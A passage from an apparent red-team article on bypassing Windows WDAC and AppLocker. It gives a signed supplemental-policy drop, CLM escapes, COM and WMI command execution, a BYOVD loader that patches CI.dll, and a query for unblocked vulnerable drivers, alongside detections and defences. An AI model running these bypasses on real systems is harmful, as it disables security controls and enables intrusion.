1. **Managed Installer abuse**, the most realistic, most under-discussed bypass in 2026.
2. **ISG (Intelligent Security Graph)**, cloud reputation as a trust input.
3. **Supplemental policy abuse**, appending allow rules to a base policy.
4. **BYOVD**, kernel R/W to disable enforcement.

### A. Managed Installer abuse

**What MI actually is.** Picture a 30,000-seat enterprise. The endpoint team deploys software via SCCM. Every Tuesday, the SCCM client (`CcmExec.exe`) drops a new version of, say, Acrobat Reader to a few thousand boxes. Acrobat updates itself silently. The endpoint team also pushes an internal LOB app updated weekly by a different team. And then Intune is pushing the new Defender for Endpoint sensor. Etc.

Maintaining an explicit WDAC allow rule (signature, version, or hash) for every binary any of those flows ever produces is a full-time job no security team has the headcount for. Microsoft's answer is the **Managed Installer** option. You designate a small set of *installer processes* as trusted. Anything those processes write to disk inherits trust automatically. The endpoint team keeps deploying; the security team only worries about the installers themselves.

**How it's implemented, mechanically.** This is where it gets interesting, because the mechanism reaches into the file system.

Three pieces work together:

1. **An AppLocker rule collection of type `ManagedInstaller`** declares which processes earn MI status. The rule format is the same as a normal AppLocker rule (path, hash, publisher), but the collection name tells `appid.sys` "treat matches as installers."
2. **`appid.sys`**, the AppLocker kernel filter driver, watches process activity. When an MI-tagged process writes a file, `appid.sys` attaches a marker to the resulting file.
3. **`CI.dll`**, the WDAC engine, checks that marker at execution time. Marker present and policy has `Enabled:Managed Installer` set, the file runs without further policy check.

The marker is the part most explanations gloss over, so let me unpack it.

**NTFS Extended Attributes, a quick refresher.** NTFS stores more than just file contents and the obvious metadata (timestamps, ACLs). Every file can carry **Extended Attributes**, key-value metadata stored in the MFT or in a separate `$EA` attribute. EAs are a holdover from OS/2 days. Windows uses them for a handful of things: HPFS compatibility, SMB share metadata, and, as it turns out, AppLocker / WDAC origin tracking.

You can list EAs from user mode with `fsutil`:

```powershell
fsutil file queryEa C:\Windows\CCMCache\<package-guid>\setup.exe
```

Sample output on a file SCCM deployed:

```text
Extended Attributes for file C:\Windows\CCMCache\\...\setup.exe:
Total Ea Size: 0x0030

Ea Name: $KERNEL.SMARTLOCKER.ORIGINCLAIM
Ea Value Length: 0x0024
00000000: 00 02 00 00 14 00 00 00  | ........
00000008: 01 00 00 00 50 00 00 00  | ....P...
...
```

That single EA, `$KERNEL.SMARTLOCKER.ORIGINCLAIM`, is the entire trust handshake. Two things make it interesting:

- **The `$KERNEL.` prefix is a reserved namespace.** EAs in that namespace can only be written by kernel components. User-mode code can read them; it cannot forge them. That's the trust root. If you could just `NtSetEaFile` your way to a SMARTLOCKER EA, MI would be trivially bypassable.
- **The blob value encodes the origin.** Approximately: which Managed Installer wrote the file, when, and a structured claim that the policy engine can reason about. The format isn't formally documented but has been reverse-engineered in public research (Bohops and NetSPI both have notes on it).

**EA propagation rules**, which become operationally important:

| Operation | EA preserved? |
|---|---|
| Rename on same NTFS volume | Yes |
| Move on same NTFS volume | Yes |
| Copy on same NTFS volume | Yes |
| Move across NTFS volumes | Yes |
| Copy across NTFS volumes | Yes |
| Copy to FAT32 / exFAT | No (filesystem doesn't support EAs) |
| Copy to ReFS | Yes |
| Copy over SMB to another NTFS share | Yes, if both ends are recent SMB versions |
| Archive with `tar`, `zip` | No |
| Archive with `7z` + NTFS streams flag | Sometimes |
| Download via browser | No (browsers write through normal user-mode APIs, no MI context) |

The headline implication: **trust travels with the file, not with the contents.** An MI-deployed binary remains MI-trusted even after the user copies it to their desktop. Replace its contents (open for write, rewrite the bytes, keep the inode) and the EA still says "I came from SCCM." This is the foundation of every interesting MI abuse.

WDAC checks the EA at execution time:



**The offensive surface.**

1. **Direct MI process compromise.** If you can run code as the SCCM client (`ccmexec.exe`), every file it writes is trusted forever. SCCM agents run as `SYSTEM`. Compromising the SCCM server, or hijacking a DLL the agent loads, yields environment-wide trust.

2. **Inheritance through file operations.** When an MI process writes a file, the EA is set. When that file is copied (by anyone), the EA is preserved as long as the copy stays on NTFS. Means: anything the MI ever deployed retains trust. If you can lateral-move into a host where SCCM has historically dropped an executable into `C:\Windows\CCMCache\` or `C:\ProgramData\`, you may find pre-trusted binaries you can swap with proxy DLLs in place, and the proxy DLL inherits the parent EXE's trust by NTFS attribute propagation.

3. **Soft trust pivots.** Some MI configurations whitelist not just SCCM but also signed PowerShell modules used by SCCM. Modules like `ConfigurationManager.psd1` run with trust, and if the policy allows arbitrary cmdlets from MI-loaded modules, you have a CLM-bypassing pipeline.

4. **Misconfigured MI rules.** Defenders sometimes write Managed Installer rules with broad publishers (`O=Acme Corp` covers *every* binary Acme ever signs, including potentially developers' test signing keys).

**Sample MI policy fragment.** Inside a WDAC XML policy:

```xml
<FileRules>
  <FilePathRule Id="MI_SCCM_Client"
    FriendlyName="ConfigMgr client is a managed installer"
    PolicyClass="ManagedInstaller"
    Path="C:\Windows\CCM\CcmExec.exe" />
</FileRules>
<Settings>
  <Setting Provider="WDAC" Key="ConfigCI" ValueName="EnabledManagedInstaller">
    <Value><Boolean>true</Boolean></Value>
  </Setting>
</Settings>
```

When `EnabledManagedInstaller` is true and `ccmexec.exe` is the MI, **any file it creates is trusted regardless of signature.**

**Enumeration.** Check whether MI is enabled:

```powershell
# Read the active policy's option flags
CiTool.exe --list-policies --json | ConvertFrom-Json |
  ForEach-Object { $_.Rules; $_.PolicyOptions } |
  Where-Object { $_ -match 'ManagedInstaller' }

# Or inspect the AppLocker MI rule collection. MI rules ride the AppLocker schema
Get-AppLockerPolicy -Effective -Xml | Select-String "ManagedInstaller"
```

Look for processes that are MIs (`ccmexec.exe`, `CCMScript.exe`, Intune's `IntuneManagementExtension.exe`, Tanium, BigFix).

**The classic abuse pattern.** You don't have SYSTEM. You can't directly become the MI. But you don't have to.

- **Pre-position via supply chain.** If you can land a malicious package in the SCCM deployment queue (compromised packager, malicious internal Software Center submission), SCCM itself deploys it across the fleet, and every endpoint gets a trust-tagged file.
- **Live off pre-tagged binaries.** Find what SCCM has already dropped (`C:\Windows\CCM\`, `C:\Windows\CCMCache\<package GUID>\`). Each `.exe`/`.dll` in there has the EA. Sideload one via DLL hijacking, the proxy DLL's parent EXE is trusted, and the loaded DLL inherits trust.

**OpSec:** Managed Installer abuse is *exceptionally* low signal because it looks like normal SCCM activity to every observer. The detection literature is thin. A handful of researchers (most notably Olaf Hartong, Bohops, NetSPI) have published primers; few SOCs alert on it.

### B. ISG, Intelligent Security Graph

**Background.** ISG is a Microsoft cloud reputation service. When `Enabled:Intelligent Security Graph Authorization` is set in a WDAC policy, files that have "known good reputation" (broad install base, no AV detections, signed by a reputable publisher) are trusted without an explicit rule. The goal is similar to MI, let users install reasonably-popular software without an explicit policy change.

```text
ISG decision pipeline (simplified):
  file executes -> WDAC checks rules -> no match
                                     -> ISG enabled?
                                     -> query Microsoft graph
                                     -> "good reputation" -> Allow + tag file
                                     -> else -> default action (Allow/Block by policy)
```

**The offensive surface.**

- **Aged-and-signed binaries.** Anything with broad install base and a clean reputation passes. Many signed administrative tools (Sysinternals, AutoHotkey, Process Hacker, even PowerShell-based runners) carry good reputation. If your tradecraft uses one of these as a runner, and you can convince it to load your code, ISG won't intervene.
- **Repackaging.** Sign your dropper with a real certificate (purchased, leaked, or borrowed from a compromised software vendor's CI), submit it for VirusTotal scanning to "age" the hash, wait. Several APT groups operationalize this as a slow but reliable WDAC bypass on ISG-enabled endpoints.
- **DLL inheritance.** When ISG allows a binary, the WDAC trust tag is set on the file. DLLs loaded from the binary's directory may inherit, depending on the policy options.

**Enumeration.** Check whether ISG is on:

```powershell
# Policy option 14 = Enabled:Intelligent Security Graph Authorization
CiTool.exe --list-policies --json | ConvertFrom-Json |
  ForEach-Object { $_.PolicyOptions } |
  Where-Object { $_ -match 'Intelligent' }
```

Or grep the active policy XML for `Enabled:Intelligent Security Graph Authorization`.

**OpSec:** Lower than MSBuild/InstallUtil. The trust decision happens silently, there's no obvious event you'd trigger. Detection requires defenders to actively hunt for ISG-allowed-but-suspicious patterns, which most don't.

### C. Supplemental policy abuse

**Background.** Windows 10 1903+ introduced multi-policy WDAC: a base policy plus N supplementals. Each supplemental can **add allow rules** to the base (it cannot deny, deny semantics live in the base only).

```text
C:\Windows\System32\CodeIntegrity\CIPolicies\Active\
  ├── {base-guid}.cip            # base policy
  ├── {supplemental1-guid}.cip   # dev tooling
  ├── {supplemental2-guid}.cip   # internal LOB app
  └── {supplemental3-guid}.cip   # ...
```

The supplemental references the base by GUID. WDAC loads all `.cip` files in that directory at boot.

**The offensive surface.**

- **Drop your own supplemental.** If you achieve local admin (or `TrustedInstaller`), you can drop a supplemental `.cip` that allows your binaries. **The supplemental must be signed by a publisher the base policy trusts.** Many base policies list common code-signing CAs (DigiCert, Sectigo) as supplemental signers, meaning *any* binary signed under those CAs can drop a supplemental. This is one of the more aggressive aspects of base-policy design and a common misconfiguration.
- **Modify an existing supplemental.** If the base policy doesn't enforce strict signer requirements on supplementals (the `Allow Supplemental Policies` flag is on but signer is generic), an attacker with write access to `CIPolicies\Active\` can replace a supplemental.
- **Stage via the `RefreshPolicy()` API.** WDAC exposes a `RefreshPolicy()` call (via `WldpIsClassInApprovedList` / `CiTool.exe --update-policy`), gets you re-evaluation without reboot. Useful when staging supplementals during an op.

**Sample workflow** (admin shell):

```powershell
# Create a permissive supplemental
$xml = @"
<SiPolicy ...>
  <BasePolicyID>{a91cf2e1-...}</BasePolicyID>
  <PolicyType>Supplemental Policy</PolicyType>
  <FileRules>
    <Allow ID="Allow_All_Hash" FriendlyName="Allow all by hash" Hash="..." />
  </FileRules>
  ...
</SiPolicy>
"@
$xml | Out-File C:\evil\supp.xml

ConvertFrom-CIPolicy -XmlFilePath C:\evil\supp.xml -BinaryFilePath C:\evil\supp.cip
# Sign the supplemental with a cert chained to a base-trusted root
signtool sign /v /f attacker-codesigning.pfx /p ... C:\evil\supp.cip

# Drop it into the active policies directory and refresh
copy C:\evil\supp.cip C:\Windows\System32\CodeIntegrity\CIPolicies\Active\
CiTool.exe --update-policy
```

Event ID **3099** fires on policy refresh, that's the high-value detection.

**OpSec:** Requires admin (or equivalent). Loud at the policy-refresh event but very few SOCs subscribe to 3099. After the supplemental is in place, every subsequent action is trust-allowed. This is the "endgame" WDAC bypass for an attacker who has admin but doesn't want to BYOVD.

### D. Operating under ConstrainedLanguageMode

When UMCI enforces and PowerShell flips to CLM, most public offensive PowerShell is dead. But not everything is.

#### 1. Runspaces

**What a runspace is.** A PowerShell runspace is the execution context for a script: which language mode is in effect, which modules are loaded, which providers are wired up, where the current working location is. When you run `powershell.exe`, it gives you one runspace. The runspace inherits a language mode from policy (UMCI on means CLM; UMCI off means FullLanguage). You can also create additional runspaces programmatically, and that's the historical CLM escape hatch.

The old trick worked like this. Even inside a CLM-locked PowerShell, you could create a fresh runspace, set its `SessionStateProxy.LanguageMode` to `FullLanguage`, and execute script in the new runspace at full privilege:

```powershell
# Historical CLM escape, pre WMF 5.1 patch
$rs = [runspacefactory]::CreateRunspace()
$rs.Open()
$rs.SessionStateProxy.LanguageMode = "FullLanguage"   # the trick

$ps = [powershell]::Create()
$ps.Runspace = $rs
$ps.AddScript({
    # Inside this script block we are FullLanguage.
    # Add-Type, New-Object on arbitrary types, P/Invoke all work.
    Add-Type @'
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")] public static extern IntPtr GetCurrentProcess();
}
'@
    [Win32]::GetCurrentProcess()
}).Invoke()
```

Microsoft patched this in WMF 5.1. On a CLM-enforced box today, the second line of that script throws:

```text
Cannot set property. Property setting is supported only on core types in
this language mode.
At line:1 char:1
+ $rs.SessionStateProxy.LanguageMode = "FullLanguage"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : PropertySetNotSupportedInLanguageMode
```

Some adjacent things still work in 2026, if you read them carefully:

- **Runspaces inherit, but signed modules don't.** A new runspace created in CLM stays in CLM. But cmdlets exported from a *signed* PowerShell module run in FullLanguage regardless of the calling runspace's mode. So if you can reach a signed-module cmdlet that takes a `[ScriptBlock]` and executes it, the script block runs in FullLanguage. That's the modern hunting ground; see "Signed module abuse" below.
- **Out-of-process runspaces with custom session configurations.** `powershell.exe -PSConsoleFile <pssc>` lets you point at a session configuration file that defines language mode, allowed cmdlets, etc. A permissive session config gives you a FullLanguage shell. Installing a session config requires admin (`Register-PSSessionConfiguration`), so this is a privilege-already-escalated primitive, not an entry-level one. Useful for persistence in environments where the operator has admin but wants every future PowerShell shell to land in FullLanguage.
- **`PSv2` downgrade**, on endpoints that still have v2 installed. PowerShell v2 predates CLM entirely and runs FullLanguage no matter what. Microsoft started removing v2 in Windows 10 1809, but it's an optional feature, and you'll find it enabled on:
  - Healthcare and finance endpoints running legacy management agents that hard-require v2.
  - Server boxes that haven't been re-imaged since pre-1809 base images.
  - Anywhere a developer left a "we'll deprecate it later" exception in place.

Check whether v2 is on:

```powershell
Get-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2
```

If `State: Enabled`, downgrade with the `-Version 2` switch:

```cmd
powershell.exe -Version 2 -Command "$ExecutionContext.SessionState.LanguageMode; Get-Process"
```

Sample output on a v2-enabled box with CLM otherwise enforced:

```text
FullLanguage

Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
    134       7     1432       4612    62     0.05    340 svchost
...
```

A successful v2 downgrade leaves a loud trail (Sysmon 1, command line `-Version 2`), and modern EDRs flag it explicitly. It's a "I know I'll be seen, but I need FullLanguage for the next 30 seconds" primitive, not a quiet living-off-the-land move.

#### 2. COM objects

**Concept.** Many COM objects expose methods that execute arbitrary code. They're available even in CLM because `New-Object -ComObject` is allowed in some configurations.

```powershell
# WScript.Shell, classic
$shell = New-Object -ComObject WScript.Shell
$shell.Run("cmd.exe /c whoami > C:\Users\Public\proof.txt")

# Shell.Application, Explorer COM, also command runner
$app = New-Object -ComObject Shell.Application
$app.ShellExecute("cmd.exe", "/c whoami", "", "open", 1)

# MMC20.Application, DCOM lateral movement primitive
$mmc = [Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application"))
$mmc.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c whoami", "7")
```

**Failure conditions.** CLM in PowerShell 5.1 blocks `[Activator]::CreateInstance` on most types; `New-Object -ComObject` is sometimes allowed and sometimes not, depending on which COM object's ProgID you reference. The trick is finding ProgIDs whose registration entries don't trigger CLM checks.

#### 3. Signed module abuse

**Concept.** WDAC trusts signed PowerShell modules. They run in FullLanguage even inside an otherwise-CLM session. If a signed module exposes a cmdlet that calls user-supplied script blocks, **the cmdlet runs in FullLanguage and the script block executes in FullLanguage too.**

Microsoft has fixed many of these over the years (`Invoke-Command -ScriptBlock` was a notorious one), but the discovery process is ongoing. The general method:

```powershell
# Enumerate signed modules on the system
Get-Module -ListAvailable | ForEach-Object {
    $sig = Get-AuthenticodeSignature $_.Path
    if ($sig.Status -eq 'Valid') { $_ }
} | Select-Object Name, ModuleBase
```

Then read each module's `.psm1` looking for any cmdlet that takes a `[scriptblock]` parameter and invokes it. Each such cmdlet is a potential CLM bypass.

#### 4. WMI / CIM

**Concept.** WMI's `Win32_Process.Create` spawns processes. WMI calls run in their own COM-isolated context. From PowerShell CLM, `Invoke-CimMethod` can still call `Create`:

```powershell
Invoke-CimMethod -ClassName Win32_Process -MethodName Create `
    -Arguments @{ CommandLine = 'cmd.exe /c whoami > C:\Users\Public\proof.txt' }
```

The new process runs as the calling user. It does not need to inherit CLM. Useful for breaking out of a CLM-locked PowerShell into a regular cmd.exe (which doesn't have a language mode at all, though if WDAC UMCI is enforced, the spawned cmd.exe still runs but anything it executes must clear UMCI).



### E. BYOVD, Bring Your Own Vulnerable Driver

#### The kernel attack surface

WDAC enforcement is in `CI.dll`, loaded into the kernel at boot. Its decision-making centers on a global state structure commonly summarized as `g_CiOptions` (or `g_CiPolicy` on newer builds). Bits in that structure say "enforce signature checks," "audit only," "disabled." Flipping those bits disables CI in the running kernel.

Getting to those bits requires arbitrary kernel write. Drivers are kernel code. Some legitimately-signed drivers have bugs that hand a user-mode caller kernel R/W. **That's BYOVD.**

#### Why "signed but vulnerable" exists

Microsoft requires kernel drivers to be Authenticode-signed and chained to a Microsoft-recognized root. Once a driver is signed, it loads, even years later, even after the vulnerability is publicly known, unless its certificate has been revoked or the file hash has been added to the **Microsoft Vulnerable Driver Blocklist**.

The blocklist is real and shipped with modern Windows (10 22H2+ and 11). It denies many of the most-abused drivers (`gdrv.sys`, `RTCore64.sys`, etc.) by hash. But:

- New vulnerable drivers are discovered weekly. The blocklist always trails.
- Attackers rename drivers, repackage with a slightly different binary, or use less-publicized drivers not yet on the list.
- Many enterprises run policies that don't include the Microsoft Vulnerable Driver Blocklist as a recommended block list (it's a separate WDAC component from the main recommended block rules).

#### The LOLDrivers project

**What it is.** "Living Off The Land Drivers" is the community catalog of signed Windows drivers that an attacker can abuse for kernel access. It started in 2022, when Michael Haag (Splunk threat research), Jose Hernandez, and Olaf Hartong noticed that nothing comparable to LOLBAS existed for drivers, even though BYOVD was already a mature ransomware-operator technique. The project lives at [loldrivers.io](https://loldrivers.io), with the source-of-truth dataset on GitHub at [magicsword-io/LOLDrivers](https://github.com/magicsword-io/LOLDrivers). Every driver is a YAML file in `drivers/`, and the project publishes a machine-readable JSON export at `api/drivers.json`.

**What each entry contains, and why each field matters.**

- **Hashes (SHA1, SHA256, MD5, Authentihash).** Multiple variants of the "same" driver get shipped across versions; the project tracks all of them. Authentihash is especially important because two different files with different SHA256s can have the same Authentihash, meaning Microsoft's blocklist hits both.
- **`OriginalFilename`.** Attackers rename. `RTCore64.sys` shows up in incidents as `rtkbcrl.sys`, `rtk.sys`, `rt2.sys`, `mhyprot2.sys`-style names. The project links every rename it observes, so you can pivot from a suspicious filename to "yes, this is the MSI Afterburner driver with arbitrary kernel R/W."
- **Vendor / Author / Signing chain.** Who signed the driver originally, and whether the certificate has been revoked since.
- **Vulnerability category.** A controlled vocabulary: `arbitrary_kernel_rw`, `physical_memory_rw`, `process_termination`, `file_deletion`, `registry_manipulation`, `command_injection`. Maps cleanly to "what can I do with this driver if I'm a user-mode caller."
- **CVE.** Many entries have one. Many don't, because vendors prefer not to assign CVEs to functionality they shipped intentionally.
- **Tactics / Tools.** Which actors and tools have used the driver in the wild. The RTCore64 entry, for example, lists AvosLocker, BlackByte, Cuba, ToddyCat, Earth Krahang, plus mapper tools like KDMapper.
- **Detection content shipped with the entry.** YARA rules, Sigma rules, KQL hunting queries, sometimes Splunk SPL. The project's view is that publishing a vulnerable driver without detection content is irresponsible, so they bundle them.
- **References.** Blog posts, vendor advisories, PoC repos, IR write-ups.

**The big operational point.** The dataset is consumed by both sides. Microsoft pulls from it for the **Vulnerable Driver Blocklist** (the official block list shipped with Windows). EDR vendors pull from it for detection content. Red teamers pull from it to pick drivers. Defenders pull the hash list weekly and grep their endpoint inventories. It is a rare piece of infrastructure that genuinely moves the field.

**Some recurring entries you'll see in 2025-2026 incident reports:**

| Driver | Vendor | Capability | What's interesting about it |
|---|---|---|---|
| `RTCore64.sys` | MSI Afterburner | Arbitrary MSR + kernel R/W | The single most-abused BYOVD driver. Used by AvosLocker, BlackByte, Cuba, Iron Tiger, ToddyCat. Authentihash blocked since 2022, but renamed variants still surface monthly. |
| `gdrv.sys` | Gigabyte | Phys mem R/W via `MmMapIoSpace` | Featured in the 2019 Robbinhood ransomware attack on Baltimore. CVE-2018-19320. Blocked. |
| `AsrDrv101.sys` / `AsIO3.sys` / `AsIO2.sys` | ASRock / Asus utilities | Phys mem R/W and IOCTL fuzz-friendly | Vendors keep shipping new versions with similar primitives, so the blocklist trails. |
| `iqvw64e.sys` | Intel network diagnostics | Arbitrary kernel R/W | The historical reference exploit; what every public KDMapper still uses. Blocked. |
| `viragt64.sys` | TG Soft Vir.IT eXplorer | Arbitrary kernel R/W | Anti-malware vendor's own driver; the irony is appreciated. Blocked. |
| `procexp152.sys` (older) | Sysinternals (pre-refactor) | Process termination | Before the Sysinternals kernel-component refactor, used to terminate AV. Now mostly blocked. |
| `ene.sys` | ENE Technology RGB drivers | Phys mem R/W | Added to the project in 2024, present on a lot of gaming-vendor laptops. Block status partial. |
| New OEM update drivers | various | various | New entries land monthly. The blocklist always trails by a few weeks to months. |

**Using the project as an operator.** Pull the JSON, filter on what you need:

```bash
curl -sL https://www.loldrivers.io/api/drivers.json -o drivers.json

# Drivers with arbitrary kernel R/W that aren't currently blocked
jq '.[] | select(.Category == "vulnerable") |
        select(.KnownVulnerableSamples[].Authentihash.SHA256 != null) |
        select(.Commands[].Command? // "" | test("kernel"; "i")) |
        {filename: .KnownVulnerableSamples[0].Filename,
         sha256:   .KnownVulnerableSamples[0].SHA256,
         description: .Description}' drivers.json
```

Then cross-check the target's installed `Microsoft Vulnerable Driver Blocklist` version (it's a separate WDAC policy under `C:\Windows\System32\CodeIntegrity\` named like `VulnerableDriverBlockList.p7b`). Some orgs lag the official blocklist by months. Pick a driver that's documented to work on the target Windows build (kernel APIs change between major releases) and you've got your kernel primitive.

**Using the project as a defender.** Three things, in order of impact:

1. Enable Microsoft's Vulnerable Driver Blocklist via your WDAC policy. It's not on by default on older Windows builds. This catches most of the published catalog.
2. Subscribe to the GitHub repo's release feed. Compare new hashes against your endpoint inventory weekly. Some entries are legitimate drivers in normal use (gaming hardware utilities, OEM update agents), so don't auto-block, flag for review.
3. Ingest the YARA / Sigma rules the project ships. They're not Microsoft's, they're community-curated, and they catch things the blocklist alone won't (renamed variants, partial extracts embedded in attacker droppers).

#### The flow



Conceptual loader:

```c
HANDLE hDrv = CreateFileW(L"\\\\.\\VulnDrv", GENERIC_READ|GENERIC_WRITE, 0,
                          NULL, OPEN_EXISTING, 0, NULL);

ULONG64 ciBase  = LeakKernelModuleBase(hDrv, "CI.dll");
ULONG64 gCiOpts = ciBase + OFFSET_FOR_THIS_BUILD;   // per-build, find by signature

ULONG original = 0;
DriverArbitraryRead(hDrv, gCiOpts, &original, sizeof(original));

ULONG patched = original & ~CI_ENFORCE_BITS;
DriverArbitraryWrite(hDrv, gCiOpts, &patched, sizeof(patched));

// ... load unsigned stuff ...

DriverArbitraryWrite(hDrv, gCiOpts, &original, sizeof(original));
CloseHandle(hDrv);
```

#### HVCI, the wall

When HVCI is on, the hypervisor (Hyper-V root partition) manages a second-level page table that marks kernel pages backing `CI.dll`, `ntoskrnl.exe`, and other sensitive modules as **read-only from the kernel's perspective.** Even an arbitrary kernel-write primitive can't write them, the write traps to the hypervisor and returns failure.



HVCI defeats most public BYOVD tooling. The realistic attacks against HVCI are:

- A bug in the hypervisor itself (rare, nation-state work).
- A driver flaw that lets you change *page table mappings* before HVCI re-validates (also rare).
- Pre-OS attacks (UEFI, boot kit), outside this post's scope.

#### Tooling

| Tool | Notes |
|---|---|
| [loldrivers.io](https://loldrivers.io) | Catalog; filter by capability |
| [KDMapper](https://github.com/TheCruZ/kdmapper) | Public mapper using `iqvw64e.sys` |
| [MemDrive](https://github.com/Idov31/MemDrive) | BYOVD-as-a-library used by several public RATs |
| [CheekyBlinder](https://github.com/br-sn/CheekyBlinder) | Specifically targets EDR kernel callbacks via BYOVD |

**OpSec in 2026:**

- **Loud at the driver load.** Event `Microsoft-Windows-Kernel-PnP/Configuration` 400 / 410 and `Microsoft-Windows-CodeIntegrity/Operational` 3023 / 3024 fire for new driver loads. Modern EDR (Defender, CrowdStrike) has explicit BYOVD detection that matches against LOLDrivers hashes.
- **Microsoft Vulnerable Driver Blocklist** is the simplest defense and increasingly default-on in 11 22H2+.
- **HVCI on a target = practical immunity** to this technique class.

## V. Detections, telemetry, modern hunting

A consolidated view of what defenders see when each technique fires.

### Technique vs. Detection

| Technique | Primary signal | Where the detection lives | Effort to evade |
|---|---|---|---|
| InstallUtil `/U` | `installutil.exe` parent → suspicious child; .NET assembly load from non-MS path | EDR behavioral rules; AppLocker 8003/8004 | Low, every EDR ships this rule |
| MSBuild inline task | `msbuild.exe` outside dev lineage; .NET JIT events | EDR + ETW DotNETRuntime | Low, same |
| DLL hijack (phantom) | Unsigned DLL load from user-writable path | EDR module load callbacks; Sysmon 7 | Medium, depends on target EXE choice |
| DLL hijack (proxy of signed app) | DLL signature mismatch on legitimate app | EDR image-load integrity | Medium-high |
| Electron `--inspect` | CLI flag in process command line; localhost listener | EDR command-line analytics; netstat baseline | Low if defenders watch CLI; lots don't |
| Electron `ELECTRON_RUN_AS_NODE` | Env var present on running process; Code.exe with no GUI | EDR environment-var visibility (varies) | High, most EDRs don't show env vars |
| Electron asar tampering | `app.asar` mtime change; integrity-fuse failure log | Custom baseline; Defender app integrity (limited) | High, rarely monitored |
| Managed Installer pre-positioning | Anomalous SCCM package deployment | SCCM audit logs; rare custom analytics | Very high, almost no SOCs detect this |
| ISG-allowed novel binary | New file with `SMARTLOCKER` EA from non-MI source | Almost no detections exist | Very high |
| Supplemental policy drop | **CI event 3099** (policy refresh) | CI Operational channel | High, most SOCs don't subscribe to 3099 |
| BYOVD load | New kernel driver from unusual path; LOLDrivers hash match | EDR kernel telemetry; CI events 3023/3024 | Low, well-detected since 2023 |
| BYOVD CI patch | EDR kernel callbacks observe writes to `CI.dll` | EDR kernel hooks | Low on EDR-protected boxes |
| CLM PSv2 downgrade | `powershell.exe -Version 2` in command line | EDR; Sysmon 1 | Low, easy detection if logged |
| WMI Win32_Process.Create | WMI provider 1 + process create lineage | Sysmon 19/20/21; EDR | Medium |

### Environment vs. Recommended Technique

A heuristic for picking your approach quickly. Read your enumeration, then read the row.

| Environment | First-choice technique | Second-choice | Avoid |
|---|---|---|---|
| AppLocker only, `Dll` enforced | Electron `ELECTRON_RUN_AS_NODE` | Signed-app DLL sideload | InstallUtil / MSBuild |
| AppLocker only, `Dll` not configured | DLL hijack of installed signed app | Electron asar tampering | InstallUtil / MSBuild |
| WDAC + UMCI enforced, no MI / ISG | Supplemental policy drop (admin) | Electron `ELECTRON_RUN_AS_NODE` | DLL hijack of unsigned |
| WDAC + UMCI + Managed Installer | Live-off MI-tagged binaries; sideload | Pre-position via SCCM | Direct unsigned drop |
| WDAC + UMCI + ISG | Aged/signed dropper; signed-app hijack | Electron | Unsigned anything |
| WDAC + HVCI | Same as above; do **not** BYOVD | Electron | BYOVD |
| Developer workstation | npm/NuGet/VS Code tasks | Electron | Loud LOLBins |
| Locked-down kiosk (UMCI + CLM + no Electron) | Find a signed module CLM escape | WMI lateral; quiet exit | Public PoCs |

## VI. Real-world case studies

Allowlist bypasses are not theoretical. The following are documented and recurrent in the threat landscape.

### FIN7 (Carbanak), MSBuild as a payload runner

FIN7 has used MSBuild inline-task project files as a primary payload mechanism for years. The pattern: phishing dropper plants a `.xml` MSBuild project file in `%TEMP%`, invokes MSBuild via a LOLBin chain, and the inline task allocates RWX memory and runs shellcode. The `.xml` is data, passes most file-content scanners, and `MSBuild.exe` is signed by Microsoft. **Mandiant's M-Trends 2023 and 2024 reports highlight FIN7's continued use of this technique despite widespread EDR detections, because in many environments the detections aren't tuned.**

### Lazarus, InstallUtil + signed binaries

Lazarus has run InstallUtil-style .NET stagers in operations against South Korean defense and crypto-exchange targets. Their stagers chain InstallUtil with signed .NET assemblies that contain credential-theft modules. They've also documented use of BYOVD with `RTCore64.sys` (the MSI Afterburner driver) to disable EDR kernel callbacks, pre-Microsoft Vulnerable Driver Blocklist, this worked broadly.

### BlackByte, RTCore64 to disable AV

BlackByte ransomware operators routinely deploy `RTCore64.sys` via `sc create` immediately before ransomware encryption, using the driver's arbitrary R/W primitive to disable Defender's kernel callbacks. Multiple incident response reports (Sophos, CrowdStrike) document this pattern. **The Microsoft Vulnerable Driver Blocklist now blocks RTCore64 by hash on Windows 11 22H2+ default-on**, which has measurably reduced the attack's success rate, but rename-and-repackage versions still appear in fresh incidents.

### Raspberry Robin, LNK abuse + LOLBin chains

Raspberry Robin (active since 2021, multiple attribution theories) specifically targets enterprises with allowlisting. Its installer chain uses `.lnk` files dropped on removable media, `msiexec.exe` to fetch a remote MSI (whitelisted protocol on most policies), and DLL hijacking inside `OneDrive.exe` and `Windows Installer`. It explicitly evades AppLocker by riding inside `msiexec` (signed Microsoft) and DLL load behavior in trusted apps. Microsoft's security blog has detailed write-ups; it remains active in 2026.

The throughline: **none of these are zero-days.** They're allowlisting bypasses using documented LOLBin and trusted-app patterns. The novelty is in operator discipline and target selection, not in the bypass primitive itself.

## VII. Defensive recommendations

1. **Deploy WDAC, not just AppLocker.** AppLocker is the starting line, not the finish.
2. **Apply Microsoft's [recommended block rules](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules) AND the [Vulnerable Driver Blocklist](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-driver-block-rules).** They're separate documents; many policies include one and not the other.
3. **Enable DLL enforcement** in your WDAC policy if performance allows. Closes the largest LOLBin gap.
4. **Enable HVCI** (Memory Integrity) and Secure Boot. BYOVD becomes dramatically harder.
5. **Treat Managed Installer as a privileged trust grant.** Restrict the publishers; monitor SCCM/Intune packaging activity; alert on anomalous content shipped to fleet-wide collections.
6. **If ISG is on, treat it as "Microsoft can deny but not approve for us"**, assume novel signed binaries with good reputation will pass and design detective controls accordingly.
7. **Tightly control supplemental policies.** Require strict signer pinning. Alert on event 3099 with the urgency of a credential-dump alert.
8. **Audit Electron apps in your environment.** Inventory, ban the unnecessary ones, baseline `app.asar` hashes, ban `ELECTRON_RUN_AS_NODE` via group policy environment-variable restrictions where possible.
9. **Constrain PowerShell.** UMCI → CLM; remove PSv2; subscribe to module loading logs (event 4103); inspect signed modules for script-block parameters.
